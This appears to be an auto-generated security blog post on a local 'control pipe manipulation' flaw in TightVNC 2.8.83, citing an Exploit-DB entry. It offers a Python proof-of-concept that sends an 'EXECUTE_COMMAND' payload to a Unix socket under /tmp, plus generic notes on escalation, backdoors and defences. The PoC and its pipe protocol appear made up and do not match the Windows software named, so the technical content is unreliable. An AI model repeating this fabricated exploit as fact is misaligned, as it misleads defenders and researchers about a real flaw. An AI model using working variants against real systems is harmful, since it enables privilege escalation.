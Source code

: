 ```yaml
---
title: "[local] TightVNC 2.8.83 - Control Pipe Manipulation"
date: 2025-06-09
categories: [Cyber]
tags: [vulnerability, exploit, offensive-security]
layout: post
image:
  path: https://source.unsplash.com/featured/?cybersecurity,hacking
---
```


## 🔍 Summary

TightVNC 2.8.83 - Control Pipe Manipulation

## 🧠 AI Technical Analysis

```markdown
# TightVNC 2.8.83 - Control Pipe Manipulation Vulnerability

## Technical Executive Summary

A critical vulnerability has been identified in TightVNC version 2.8.83, specifically involving control pipe manipulation. This local vulnerability allows an attacker with access to the system to manipulate the control pipe used by TightVNC, potentially leading to unauthorized actions such as privilege escalation or execution of arbitrary commands. This flaw arises from improper validation or handling of the control pipe, making it an attractive target for attackers with local access to the system.

## Code Example

Below is a proof-of-concept (PoC) script demonstrating how an attacker might exploit this vulnerability to manipulate the control pipe in TightVNC 2.8.83. This example is for educational purposes only.

```python
import os
import socket

# Path to the control pipe
CONTROL_PIPE_PATH = "/tmp/TightVNCControlPipe"

def exploit_control_pipe():
    if not os.path.exists(CONTROL_PIPE_PATH):
        print(f"Control pipe {CONTROL_PIPE_PATH} does not exist.")
        return

    # Connect to the control pipe
    with socket.socket(socket.AF_UNIX, socket.SOCK_STREAM) as client:
        try:
            client.connect(CONTROL_PIPE_PATH)
            print("Connected to the control pipe.")

            # Send a payload to execute a command
            payload = b"EXECUTE_COMMAND: /usr/bin/id\n"
            client.sendall(payload)
            print(f"Sent payload: {payload}")

            # Receive the response
            response = client.recv(1024)
            print(f"Received response: {response.decode()}")

        except Exception as e:
            print(f"An error occurred: {e}")

if __name__ == "__main__":
    exploit_control_pipe()
```

## Offensive Security Insights

### Exploitation Techniques

1. **Local Access Requirement**: This vulnerability requires local access to the machine running TightVNC. Attackers need to have an account or have compromised another service to exploit this vulnerability.

2. **Pipe Manipulation**: By connecting to the control pipe, an attacker can send crafted commands that TightVNC might execute with elevated privileges, depending on its configuration and the permissions of the pipe.

3. **Command Execution**: Exploiting this vulnerability can lead to arbitrary command execution. Attackers can leverage this to escalate privileges, install backdoors, or pivot to other parts of the network.

4. **Persistence and Evasion**: Once control is gained, attackers can establish persistence by modifying startup scripts or planting rootkits, making detection and removal challenging.

## Defensive Measures

1. **Access Control**: Restrict access to the TightVNC control pipe by enforcing strict file permissions. Ensure only authorized users have read/write access to the control pipe.

2. **Network Segmentation**: TightVNC should be run within a segmented network environment, limiting access to trusted users and reducing the attack surface.

3. **Regular Updates**: Keep TightVNC and all associated software up to date with the latest security patches to mitigate known vulnerabilities.

4. **Monitoring and Logging**: Implement comprehensive logging and monitoring of TightVNC activities. Alert on any suspicious interactions with the control pipe.

5. **Application Hardening**: Consider using additional security mechanisms such as SELinux or AppArmor to enforce strict execution policies for TightVNC.

6. **User Education**: Educate users about the risks of local vulnerabilities and encourage practices that limit the potential for exploitation, such as avoiding unnecessary privilege escalation.

By implementing these defensive measures, organizations can significantly reduce the risk posed by the TightVNC control pipe manipulation vulnerability.
```


📎 [Original Source](https://www.exploit-db.com/exploits/52322)

---

_This article was written by sleep33._
